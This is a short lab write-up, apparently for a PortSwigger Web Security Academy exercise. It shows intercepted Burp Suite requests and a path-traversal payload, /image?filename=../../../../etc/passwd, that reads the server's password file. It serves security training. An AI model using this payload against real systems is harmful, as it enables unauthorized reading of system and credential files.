


---

- **Author:** sonyahack1
- **Date:** 01.05.2025

---

## Intercepting the "view details" request in BurpSuite

```html

GET /product?productId=11 HTTP/2
Host: 0ae8003604e31d2880ab0d0e0074008b.web-security-academy.net
Cookie: session=************************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae8003604e31d2880ab0d0e0074008b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> The vulnerability contains in the display of product **images**

> Change the request to **image**

```html

GET /image

```

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"

```

> I get a response that the parameter **'filename'** is missing

> send a request with the parameter **"filename"** and try to read the file **"passwd"** in the system

```html

GET /image?filename=../../../../etc/passwd

```
> Response:



> lab solved:


